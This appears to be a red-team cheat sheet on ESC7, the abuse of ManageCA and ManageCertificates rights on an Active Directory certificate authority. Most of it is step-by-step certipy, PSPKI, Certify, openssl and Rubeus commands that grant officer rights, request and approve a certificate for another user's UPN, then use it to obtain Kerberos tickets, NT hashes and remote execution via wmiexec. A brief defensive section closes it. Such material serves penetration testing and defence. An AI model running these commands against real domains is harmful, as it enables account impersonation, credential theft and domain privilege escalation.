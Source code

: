 # ESC7—Vulnerable Certificate Authority Access Control

## Theory

A Certificate Authority (CA) exposes two powerful rights: **ManageCA** and **ManageCertificates**.

- **ManageCA** lets a principal change CA configuration (e.g., flip the `EDITF_ATTRIBUTESUBJECTALTNAME2` bit that controls whether the CA accepts SANs supplied in requests). Changing some flags may require a CertSvc restart to take effect.
- **ManageCertificates** lets a principal approve/issue pending certificate requests, bypassing manager approval protections.
    Abuse of either (or both) can enable or accelerate template-based escalation chains (ESC1/ESC6/ESC3 etc.) by enabling SAN acceptance, enabling templates, issuing denied requests, or approving pending requests.

## Requirements

- An account with **ManageCA** and/or **ManageCertificates** on the target CA (or the ability to assign those rights).
- Ability to query the CA and submit certificate requests (e.g., domain user context with enroll rights on some templates).
 
---

## Linux—Enumerate & Abuse ManageCA

### Enumerate CA Permissions & Flags

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# Inspect CA blocks for:
#  - 'ManageCa' or 'ManageCertificates' listed under Permissions
#  - 'User Specified SAN' (UserSpecifiedSAN / EDITF_ATTRIBUTESUBJECTALTNAME2)
#  - Request Disposition (Issue / Pending)
#  - Web Enrollment, Enforce Encryption for Requests
```

### Check Presence / State of SubCA Template (example)

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -stdout
# Look for bult-in template named SubCA and whether Enabled: True
```

### Enable/disable CA Templates (requires ManageCA)

```bash
certipy ca -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -enable-template '<TEMPLATE_NAME>'
# or
certipy ca -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -disable-template '<TEMPLATE_NAME>'
```

### Add a Certificate Officer (grant ManageCertificates) (requires ManageCA)

```bash
certipy ca -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -add-officer <TARGET_PRINCIPAL>
# <TARGET_PRINCIPAL> can be a username or group that will receive ManageCertificates
```

### Create a Request that Will Pend (template Requires approval)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -template '<TEMPLATE_NAME>' -upn '<TARGET_UPN>'
# If 'Requires Manager Approval' is True or template pend flag set, note the Request ID and save private key when prompted (e.g., '<SAVED_KEYFILE>')
```

### Issue / Approve a pending Request (requires ManageCertificates)

```bash
certipy ca -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -issue-request <PENDING_REQUEST_ID>
```

### Retrieve an Issued Certificate

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' -retrieve <PENDING_REQUEST_ID>
# cert and key saved to '<PFX_FILE>' (or saved PEM/key you combined)
```

### Use the Certificate (get TGT / NT hash)

```bash
certipy auth -pfx '<PFX_FILE>' -username '<TARGET_USER>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# Produces <TARGET_USER>.ccache and may reveal NT hash
KRB5CCNAME=<TARGET_USER>.ccache wmiexec.py -k -no-pass <TARGET_FQDN>
```

---

## Windows—Enumerate & Abuse ManageCA / ManageCertificates

### Enumerate CA ACLs (PSPKI)

```powershell
Import-Module .\PSPKI.psd1
Get-CertificationAuthority -ComputerName '<CA_CONFIG_HOST>' | Get-CertificationAuthorityAcl | select -ExpandProperty access
# Look for 'ManageCA' and/or 'ManageCertificates' for identities
```

### Check CA EditFlags (certutil)

```powershell
certutil.exe -config "<CA_FQDN>\<CA_NAME>" -getreg "policy\EditFlags"
# Inspect returned EditFlags bits for EDITF_ATTRIBUTESUBJECTALTNAME2 presence
```

### Read/modify EditFlags via Script (requires ManageCA)

```powershell
# Example using a registry/COM helper (placeholder API)
$cfg = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD '<CA_CONFIG_HOST>'
$cfg.SetRootNode($true)
# Get current flags
$flags = $cfg.GetConfigEntry('EditFlags','PolicyModules\CertificateAuthority_MicrosoftDefault.Policy')
# Set new flags (value must be appropriate, e.g., enable or disable ATTRIBUTESUBJECTALTNAME2)
$cfg.SetConfigEntry(<NEW_FLAGS_VALUE>,'EditFlags','PolicyModules\CertificateAuthority_MicrosoftDefault.Policy')
# Note: CA service may require restart for some changes to take effect
```

### Approve / Issue pending Requests (requires ManageCertificates)

```powershell
# Find pending requests
Get-CertificationAuthority -ComputerName '<CA_CONFIG_HOST>' | Get-PendingRequest

# Approve a specific request
Get-CertificationAuthority -ComputerName '<CA_CONFIG_HOST>' | Get-PendingRequest -RequestID <PENDING_REQUEST_ID> | Approve-CertificateRequest
```

### Add a CA Officer (grant ManageCertificates) (requires ManageCA)

```powershell
Get-CertificationAuthority '<CA_CONFIG_HOST>' | Get-CertificationAuthorityAcl |
  Add-CertificationAuthorityAcl -Identity "<TARGET_PRINCIPAL>" -AccessType Allow -AccessMask "ManageCertificates" |
  Set-CertificationAuthorityAcl -RestartCA
```

### Request a Cert that Will Pend, save the Private Key

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<TARGET_UPN>
# If pending, capture the Request ID and copy the generated private key PEM output to a file ('<SAVED_KEYFILE>')
```

### Download/convert Approved Certificate and Build PFX

```powershell
.\Certify.exe download /ca:<CA_FQDN>\<CA_NAME> /id:<PENDING_REQUEST_ID> > issued.pem
# Append saved private key file content to the pem, then:
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in issued_with_key.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out '<PFX_FILE>'
```

### Use Certificate for PKINIT / Extract Creds

```powershell
.\Rubeus.exe asktgt /user:<TARGET_USER> /certificate:'<PFX_FILE>' /getcredentials /nowrap
# Grab base64 TGT or NTLM hash and proceed with standard Kerberos/ptt flows
```

---

## Practical Abuse Patterns

- **Flip CA flags** (ManageCA) to enable `UserSpecifiedSAN` so enrollment flows that accept SANs become usable. Some changes require a CA restart.
- **Add yourself as a CA officer** (ManageCertificates) and **issue pending or denied requests** to obtain certs you cannot directly enroll for.
- **Enable/disable templates** to make dangerous templates (e.g., SubCA or AnyPurpose) available.
- **Combine** ManageCA and ManageCertificates to both enable features and immediately approve requests, shortening escalation chains.

## Defensive Notes

- Lock down CA ACLs: restrict **ManageCA** and **ManageCertificates** to a small, audited group.
- Harden `EditFlags`: avoid enabling `EDITF_ATTRIBUTESUBJECTALTNAME2` unless necessary.
- Require authorized signatures / manager approval where practical and enforce encryption for ICPR/ICPR requests.
- Monitor CA ACL changes, pending requests, and template enable/disable events.
